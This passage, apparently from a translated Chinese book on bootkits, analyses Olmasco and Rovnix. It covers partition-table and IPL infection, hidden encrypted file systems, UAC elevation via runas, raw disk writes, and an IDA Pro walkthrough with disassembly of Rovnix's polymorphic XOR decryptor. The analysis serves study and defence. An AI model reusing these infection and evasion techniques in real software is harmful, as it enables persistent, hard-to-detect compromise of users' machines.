

*Figure 10-2: 硬盘在感染 Olmasco 之前和之后的布局*

感染后，一个原本空闲的分区表条目被连接到 Olmasco 分区并成为活动分区条目。可以看到 MBR 代码本身保持不变；受影响的仅是 MBR 分区表。为了更好隐蔽，Olmasco 分区表的第一个扇区看起来与合法的 VBR（卷引导记录）非常相似，这可能会让安全软件误以为 Olmasco 的分区是硬盘上的合法分区。

#### 被感染系统的引导过程

系统被 Olmasco 感染后，会按以下流程引导。被感染机器下次启动时，Olmasco 分区的恶意 VBR ➋ 在 MBR 代码 ➊ 执行之后、OS 引导加载程序组件加载之前接收控制。这使得恶意代码在操作系统之前就获得控制权。当恶意 VBR 接收到控制权后，它会从 Olmasco 隐藏文件系统 ➌ 的根目录读取 `boot` 文件并将控制权转移给它。该 `boot` 组件在功能上与之前版本的 TDL4 的 `ldr16` 模块相同：它挂钩 BIOS 中断 13h 处理程序 ➍ 以修补引导配置数据（BCD） ➎，并加载原先活动分区的 VBR。

概念上，Olmasco 与 TDL4 的引导过程非常相似，组件基本相同，只是 Olmasco 为隐藏文件系统组件使用了不同的名称，如表 10-2 所示。TDL4 的引导过程在第 7 章 中有详细说明。

**Table 10-2: Olmasco 与 TDL4 的引导组件对比**

| **Olmasco** | **TDL4** |
| --- | --- |
| `boot` | `ldr16` |
| `dbg32`, `dbg64` | `ldr32`, `ldr64` |

### Rootkit 功能

引导程序的工作在它加载恶意内核模式驱动（➏ 在 Figure 10-4）后即告完成，该驱动实现了 Olmasco 的根引导程序功能。根引导程序部分负责以下任务：

- 挂钩硬盘设备对象
- 从隐藏文件系统中注入载荷到进程中
- 维护隐藏文件系统
- 实现传输驱动接口（TDI）以重定向网络通信

#### 挂钩硬盘设备对象和注入载荷

列表中的前两项基本上与 TDL4 相同：Olmasco 使用相同的技术挂钩硬盘设备对象，并将隐藏文件系统中的载荷注入进进程。挂钩硬盘设备对象的作用是防止安全软件恢复原始 MBR，从而让 Olmasco 在重启后仍然持久化。Olmasco 拦截所有硬盘的读写请求，并阻止试图修改 MBR 或读取隐藏文件系统内容的请求。

#### 维护隐藏文件系统

隐藏文件系统是此类复杂威胁（如根引导程序和引导程序根套件）的重要特性，因为它为在受害计算机上隐蔽存储信息提供了暗通道。传统恶意软件依赖操作系统文件系统（NTFS、FAT32、extX 等）来存储组件，这使其容易受到取证分析或安全软件的检测。为了规避这些风险，高级恶意软件会实现自定义文件系统，并将其存储在硬盘的未分配区域。在大多数现代配置中，硬盘末尾至少有几百兆字节的未分配空间，足够存储恶意组件和配置信息。此方式下，隐藏文件系统中的文件不通过常规 API（如 Win32 的 `CreateFile`、`ReadFile`）可访问，但恶意软件仍可通过特殊接口与其通信并访问其中的数据。恶意软件通常还会对隐藏文件系统的内容进行 RC4 流加密，以进一步保护。

# 第 11 章：IPL 引导程序：ROVNIX 和 CARBERP


Rovnix 的分发始于 2011 年底，这是首个已知能够感染活动分区引导代码的引导程序根套件（bootkit）。当时的安全产品已经能够监控主引导记录区（MBR），如第 10 章（Chapter 10）所讨论，以防范 TDL4 和 Olmasco 等引导程序根套件。因此，Rovnix 在野外出现时，对安全软件构成了挑战。由于 Rovnix 在引导过程进一步深入，感染了 VBR 代码之后执行的 IPL 代码（见第 5 章 Chapter 5），它在安全行业赶上之前停留了几个月不被发现。

本章将重点研究 Rovnix 引导程序框架的技术细节，探讨它如何感染目标系统并绕过内核签名策略加载恶意内核驱动程序。我们将特别关注恶意 IPL 代码，并使用 VMware 与 IDA Pro GDB 对其进行调试（见第 9 章 Chapter 9）。最后，我们将展示 Rovnix 在野外的实现：Carberp 银行木马，它通过修改 Rovnix 实现持久化。

## Rovnix 的演变

Rovnix 首次在私人地下论坛上发布，如第 11 章（Figure 11-1）所示，作为一个功能丰富的 Ring0 包。



*Figure 11-1: Rovnix 在私人地下论坛上的广告*

它拥有模块化架构，使其对恶意软件开发者和分发者极具吸引力。这表明其开发者更倾向于出售框架而非直接分发或使用恶意软件。

自首次出现在野外以来，Rovnix 经历了多次迭代。本章将重点讨论当时撰写时的最新一代，同时也会简要提及早期版本，帮助你了解其发展历程。

- Rovnix 的早期迭代使用了简单的 IPL 感染器，将负载注入引导进程的用户模式地址空间中。恶意 IPL 代码在所有早期迭代中相同，因此安全行业能够快速使用简单的静态签名开发检测方法。
- Rovnix 的后续版本通过实现 `polymorphic`（多态）恶意 IPL 代码，使这些检测方法失效。Rovnix 还增加了一个新功能：隐藏文件系统，用于秘密存储配置数据、负载模块等。受 TDL4 类似引导根套件的启发，Rovnix 还实现了监控已感染硬盘的读写请求的功能，从而使得从系统中移除恶意软件变得更加困难。
- 后续迭代添加了隐藏的通信通道，使 Rovnix 能够与远程 C&C 服务器交换数据，并绕过个人防火墙和主机入侵防御系统（HIDS）所执行的流量监控。
- 我们现在将重点讨论截至本文写作时最新已知的 Rovnix 修改（也称为 Win32/Rovnix.D），并详细阐述其特性。

### 引导根套件（Bootkit）架构

我们先从高层次视角考虑 Rovnix 架构。Figure 11-2 展示了 Rovnix 的主要组件及其关系。



*Figure 11-2: Rovnix 架构*

Rovnix 的核心是一段恶意的内核模式驱动程序，其主要用途是将负载模块注入系统中的进程。Rovnix 可以为不同进程保存多个负载。例如，Carberp 木马（本章后文讨论）会创建假交易。Rovnix 的恶意内核驱动程序默认包含一个硬编码的负载模块，但它能够通过隐藏的网络通道从远程 C&C 服务器下载额外模块（详见“隐藏通信通道”，第 169 页）。内核驱动程序还实现了隐藏存储，用于保存下载的负载和配置信息（详见“隐藏文件系统”，第 167 页）。

### 感染系统

我们继续通过解析 Rovnix 的感染算法（如 Figure 11-3 所示）来分析其感染过程。



*Figure 11-3: Rovnix 加载器感染算法*

Rovnix 首先通过访问注册表键 `HKLM\Software\Classes\CLSID\<XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX>`（其中 X 为文件系统卷序列号生成）来检查系统是否已被感染。若该键存在，则说明系统已感染 Rovnix，恶意软件会终止并自行删除。

如果系统未被感染，Rovnix 会查询操作系统版本。要获得对硬盘的低级访问，恶意软件需要管理员权限。在 Windows XP 中，普通用户默认拥有管理员权限，因此如果操作系统是 XP，Rovnix 可以直接以普通用户身份运行，无需额外检查权限。

然而，Windows Vista 引入了新的安全特性——`User Account Control (UAC)`——会降低运行在管理员账户下的应用程序的权限。因此，如果操作系统是 Vista 或更高版本，Rovnix 必须检查是否拥有管理员权限。若加载器未以管理员身份运行，Rovnix 会通过 `ShellExecuteEx` API 使用 `runas` 命令重新启动自身以提升权限。加载器的清单包含 `requireAdministrator` 属性，使 `runas` 能尝试以提升权限的方式执行加载器。在启用 UAC 的系统上，会弹出对话框询问用户是否授权以管理员身份运行程序。用户选择“是”后，恶意软件即以提升权限启动并感染系统；若选择“否”，则加载器不会执行。若系统没有 UAC 或 UAC 已关闭，恶意软件会以当前用户账户的权限直接运行。

获得所需权限后，Rovnix 通过调用原生 API 函数 `ZwOpenFile`、`ZwReadFile` 和 `ZwWriteFile` 获得对硬盘的低级访问。它首先使用 `\\??\\PhysicalDrive0` 作为文件名调用 `ZwOpenFile`，该调用返回对应硬盘的句柄。随后，Rovnix 使用该句柄与 `ZwReadFile`、`ZwWriteFile` 例程读取并写入硬盘数据。

为感染系统，Rovnix 扫描硬盘 MBR（主引导记录）的分区表，然后读取活动分区的 IPL（引导程序加载器），并使用 aPlib 压缩库对其进行压缩。随后，Rovnix 在 IPL 前预置恶意加载器代码，生成新的恶意 IPL（如 Figure 11-4 所示）。



*Figure 11-4: 硬盘布局在感染前后的对比*

修改 IPL 后，Rovnix 将恶意内核模式驱动程序写入硬盘末尾，由恶意 IPL 在系统启动时加载。磁盘末尾预留空间用于隐藏文件系统，后文将详细说明。

### APLIB

aPlib 是一款用于压缩可执行代码的小型压缩库，基于 aPack 软件使用的压缩算法。其显著特点是压缩率与解压速度的良好比例，且解压器体积极小，这在预启动环境中尤为重要，因为该环境内存有限。aPlib 压缩库常被恶意软件用于打包和混淆负载。

最后，Rovnix 创建系统注册表键以标记系统已感染，并通过调用 `ExitWindowsEx` Win32 API（参数 `EWX_REBOOT | EWX_FORCE`）强制重启系统。

### 感染后的引导过程与 IPL

Rovnix 感染机器并强制重启后，BIOS 引导代码按常规流程加载并执行硬盘的未修改 MBR。MBR 会查找活动分区并执行未修改的 VBR（卷引导记录），VBR 随后加载并执行已感染的 IPL 代码。

#### 实现多态解密器

感染的 IPL 以一段小型解密器开头，其用途是解密并执行 IPL 的其余恶意代码（Figure 11-5）。解密器的多态性意味着每个 Rovnix 实例都包含自定义的解密器代码。



*Figure 11-6: 多态解密器的生成*

这种多态机制与现代恶意软件使用的某些代码混淆技术相比其实相当简单，但由于每个 Rovnix 实例的字节模式都会发生变化，足以躲避使用静态签名的安全软件检测。

多态技术并非绝对安全，常见的对抗它的方法是软件模拟。在模拟中，安全软件会应用行为模式来检测恶意软件。

### 使用 VMware 和 IDA Pro 对 Rovnix 引导加密程序进行解密

让我们来看使用 VMware 虚拟机和 IDA Pro 实际实现解密例程的过程。关于如何在 VMware 中设置 IDA Pro 的所有必要信息可在 Chapter 9 中找到。本次演示使用的是预先感染了 Win32/Rovnix.D 引导根套件的 VMware 映像，该映像可以从 *[`nostarch.com/rootkits`](https://nostarch.com/rootkits)* 下载，文件名为 `bootkit_files.zip`。

我们的目标是通过动态分析获得已解密的恶意 IPL 代码。我们将一步步指导你进行调试过程，快速跳过 MBR 和 VBR 步骤，专注于分析多态 IPL 解密器。

#### 观察 MBR 和 VBR 代码

回到“结合 VMware GDB 与 IDA”章节（位于第 126 页）并按照那里的步骤对 `bootkit_files.zip` 中的 MBR 进行解密。你会发现 MBR 代码位于地址 `0000:7c00h`。在 Figure 11-7 中，地址 `0000:7c00h` 被标记为 `MEMORY:7c00h`，因为 IDA Pro 显示的是段名称（在此例中为 MEMORY）而非段基址 `0000h`。由于 Rovnix 感染的是 IPL 代码而非 MBR，调试器中显示的 MBR 代码是合法的，我们不会深入研究它。



*Figure 11-7: MBR 代码开头*

该例程代码将 MBR 重定位到另一个内存地址，以便在 `0000:7c00h` 处的内存被用来读取并存储活动分区的 VBR。寄存器 `si` ➋ 初始化为源地址 `7C1h`，寄存器 `di` ➌ 初始化为目的地址 `61Bh`，寄存器 `cx` ➍ 初始化为 `1E5h`（要复制的字节数），`rep movsb` 指令 ➎ 复制字节，`retf` 指令 ➏ 将控制转移到复制后的代码。

此时，指针寄存器 `ip` 指向地址 `0000:7c00h` ➊。按 **F8** 逐条执行列表中的指令，直到到达最后的 `retf` 指令 ➏。`retf` 执行后，控制转移到刚刚复制到 `0000:061Bh` 的代码——即主 MBR 例程，其任务是查找 MBR 分区表中的活动分区并加载其第一个扇区，即 VBR。

VBR 代码保持不变，因此我们在此设置一个断点，位于例程末尾。位于地址 `0000:069Ah` 的 `retf` 指令直接将控制转移到活动分区的 VBR 代码，所以我们在该 `retf` 处设置断点（如 Figure 11-8 所示）。将光标移动到该地址并按 **F2** 切换断点。如果按 F2 弹出对话框，只需点击 **OK** 使用默认值。



*Figure 11-8: 在 MBR 代码末尾设置断点*

设置断点后，按 **F9** 继续分析直到断点处。这将执行主 MBR 例程。当执行到断点时，VBR 已经被读取到内存中，我们可以通过执行 `retf`（F8）指令来进入它。

VBR 代码以 `jmp` 指令开头，将控制转移到读取 IPL 并执行它的例程。例程的反汇编如 Figure 11-9 所示。要直接跳转到恶意 IPL 代码，在地址 `0000:7C7Ah` ➊ 设置断点，再次按 **F9** 释放控制。当执行到断点时，调试器会在 `retf` 指令处停止。使用 **F8** 执行该指令，即可到达恶意 IPL 代码。



*Figure 11-9: VBR 代码*

#### 解析 IPL 多态解密器

恶意 IPL 代码以一系列基本块的指令开头，这些指令用于初始化寄存器，随后通过 `call` 指令转移到 IPL 解密器。

解密器的第一个基本块（Listing 11-1）在内存中获取恶意 IPL 的基址并将其压栈，`jmp` 指令在 ➌ 处将控制转移到第二个基本块（请参考 Figure 11-6）。

```
MEMORY:D984 pop     ax  
MEMORY:D985 sub     ax, 0Eh ➊  
MEMORY:D988 push    cs  
MEMORY:D989 push    ax ➋  
MEMORY:D98A push    ds  
MEMORY:D98B jmp     short loc_D9A0 ➌
```

*Listing 11-1: 解密器的第一个基本块*

第二个和第三个基本块合并在 Listing 11-2 中，它们各自实现解密算法的一个步骤——内存分配。

```
; Basic Block #2  
MEMORY:D9A0 push    es  
MEMORY:D9A1 pusha  
MEMORY:D9A2 mov     di, 13h  
MEMORY:D9A5 push    40h ; '@'  
MEMORY:D9A7 pop     ds  
MEMORY:D9A8 jmp     short loc_D95D  
--snip--  
; Basic Block #3  
MEMORY:D95D mov     cx, [di]  
MEMORY:D95F sub     ecx, 3 ➊  
MEMORY:D963 mov     [di], cx  
MEMORY:D965 shl     cx, 6  
MEMORY:D968 push    cs  
MEMORY:D98B jmp     short loc_D98F ➋
```

*Listing 11-2: 基本块 2 和 3*

代码分配了 3KB 的内存（请参阅 Chapter 5 关于实模式下内存分配的说明），并将内存地址存储在 `cx` 寄存器中。这块内存用于存放已解密的恶意 IPL 代码。随后，代码从地址 `0040:0013h` 读取当前运行模式下可用的总内存大小，并减去 3KB ➊。`jmp` 指令在 ➋ 处将控制转移到下一个基本块。

基本块 4 到 8（Listing 11-3）实现了解密键和解密计数器的初始化，以及解密循环。

```
; Basic Block #4  
MEMORY:D98F pop     ds  
MEMORY:D990 mov     bx, sp  
MEMORY:D992 mov     bp, 4D4h  
MEMORY:D995 jmp     short loc_D954  
--snip--  
; Basic Block #5  
MEMORY:D954 push    ax  
MEMORY:D955 push    cx  
MEMORY:D956 add     ax, 0Eh  
➊ MEMORY:D959 mov     si, ax  
MEMORY:D95B jmp     short loc_D96B  
--snip--  
; Basic Block #6  
MEMORY:D96B add     bp, ax  
MEMORY:D96D xor     di, di  
➋ MEMORY:D96F pop     es  
MEMORY:D970 jmp     short loc_D93E  
--snip--  
; Basic Block #7  
➌ MEMORY:D93E mov     dx, 0FCE8h  
MEMORY:D941 cld  
➍ MEMORY:D942 mov     cx, 4C3h  
MEMORY:D945 loc_D945:  
➎ MEMORY:D945 mov     ax, [si]  
➏ MEMORY:D947 xor     ax, dx  
MEMORY:D949 jmp     short loc_D972  
--snip--  
; Basic Block #8  
➐ MEMORY:D972 mov     es:[di], ax  
MEMORY:D975 add     si, 2  
MEMORY:D978 add     di, 2  
MEMORY:D97B loop    loc_D945  
MEMORY:D97D pop     di  
MEMORY:D97E mov     ax, 25Eh  
MEMORY:D981 push    es  
➑ MEMORY:D982 jmp     short loc_D94B
```

*Listing 11-3: 基本块 4 到 8*

在地址 `0000:D959h`，`si` 寄存器被初始化为加密数据的地址 ➊。地址 ➋ 处的指令会将 `es` 和 `di` 寄存器初始化为用于存放解密数据的缓冲区的地址。`dx` 寄存器在地址 `0000:D93Eh` ➌ 处被初始化为解密键 `0FCE8h`，而 `cx` 寄存器则被初始化为在解密循环中需要执行的 XOR 操作次数 ➍，该次数等于 `number_of_bytes_to_decrypt` 除以 2。

解密循环中的指令会读取 2 字节的源数据 ➎，将其与密钥 ➏ 进行异或运算，并将结果写入目的缓冲区 ➐。解密步骤完成后，`jmp` 指令 ➑ 将控制转移到下一个基本块。

